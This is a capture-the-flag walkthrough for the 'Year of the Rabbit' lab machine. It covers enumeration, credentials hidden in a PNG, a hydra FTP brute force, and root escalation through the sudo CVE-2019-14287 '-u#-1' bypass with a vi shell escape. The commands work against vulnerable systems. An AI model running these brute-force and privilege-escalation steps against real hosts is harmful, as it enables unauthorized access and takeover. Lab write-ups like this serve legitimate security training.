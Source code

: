 # Year of the Rabbit

1. `nmap` reveals FTP, SSH and HTTP services on standard ports.

2. `gobuster` (with `SecLists/Discovery/Web-Content/common.txt`) on the web server reveals an interesting `/assets` directory. It contains a file `style.css` which contains a comment suggesting to check the page `/**REDACTED**.php`.

3. When checking this page, a JS alert tells us to turn off JS, we get redirected to youtube and rickrolled. Turning off JS leads to a different dead end where we still get rickrolled...

Sniffing the sequence of web requests with BurpSuite, we capture an intermediary redirection:
```
GET /intermediary.php?hidden_directory=**REDACTED** HTTP/1.1
```
seemingly revealing a possible hidden directory.

4. This directory indeed exists and contains a PNG image `Hot_Babe.png` of a [famous picture](https://en.wikipedia.org/wiki/Lenna).

```
$ exiftool Hot_Babe.png 
ExifTool Version Number         : 12.05
File Name                       : Hot_Babe.png
...
Warning                         : [minor] Trailer data after PNG IEND chunk
...
$ hd Hot_Babe.png | tail -81
00073ad0  4b ff 3f 61 68 c9 42 a5  46 15 38 00 00 00 00 49  |K.?ah.B.F.8....I|
00073ae0  45 4e 44 ae 42 60 82 4f  74 39 52 72 47 37 68 32  |END.B`.Ot9RrG7h2|
00073af0  7e 32 34 3f 0a 45 68 2c  20 79 6f 75 27 76 65 20  |~24?.Eh, you've |
00073b00  65 61 72 6e 65 64 20 74  68 69 73 2e 20 55 73 65  |earned this. Use|
00073b10  72 6e 61 6d 65 20 66 6f  72 20 46 54 50 20 69 73  |rname for FTP is|
00073b20  20 66 74 70 75 73 65 72  0a 4f 6e 65 20 6f 66 20  | ftpuser.One of |
00073b30  74 68 65 73 65 20 69 73  20 74 68 65 20 70 61 73  |these is the pas|
00073b40  73 77 6f 72 64 3a 0a 4d  6f 75 2b 35 36 6e 25 51  |sword:.Mou+56n%Q|
00073b50  4b 38 73 72 0a 31 36 31  38 42 30 41 55 73 68 77  |K8sr.1618B0AUshw|
...
$ strings Hot_Babe.png | cat -n
...
  6278  IEND
  6279  Ot9RrG7h2~24?
  6280  Eh, you've earned this. Username for FTP is ftpuser
  6281  One of these is the password:
  6282  Mou+56n%QK8sr
  6283  1618B0AUshw1M
...
$ strings Hot_Babe.png | tail -n+6282 > passlist
```
This gives us a login (`ftpuser`) and a list of possible passwords for the FTP.

5. We brute-force the FTP access with `hydra`.

```
$ hydra -l ftpuser -P passlist $TARGET_IP ftp 
...
[21][ftp] host: 10.10.**.***   login: ftpuser   password: **REDACTED**
1 of 1 target successfully completed, 1 valid password found
```

6. We access the FTP and find a file `Eli's_Creds.txt` containing a Brainfuck program.

```
$ bf Eli\'s_Creds.txt
User: eli
Password: **REDACTED**
```

7. We log in as `eli` through SSH. It is not a sudoer.

```
$ ssh eli@$TARGET_IP
...
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
...
eli@year-of-the-rabbit:~$ find / -name '*s3cr3t*' 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t/
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -a
.  ..  .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just **REDACTED**
Honestly!

Yours sincerely
   -Root
```

8. We log in as `gwendoline` and get the **user flag** in the home directory.

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
gwendoline@year-of-the-rabbit:~$ sudo --version
Sudo version 1.8.10p3
...
```

9. We can launch `vi` as any user but `root`, which can be exploited in `sudo` versions < 1.8.28 ([CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)) using the `#-1` user ID.

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 vi /home/gwendoline/user.txt 
```

Inside `vi`, type `:!/bin/bash` to launch a shell as `root` and reach the **root flag**.

```
root@year-of-the-rabbit:/home/gwendoline# cat /root/root.txt 
**REDACTED**
```
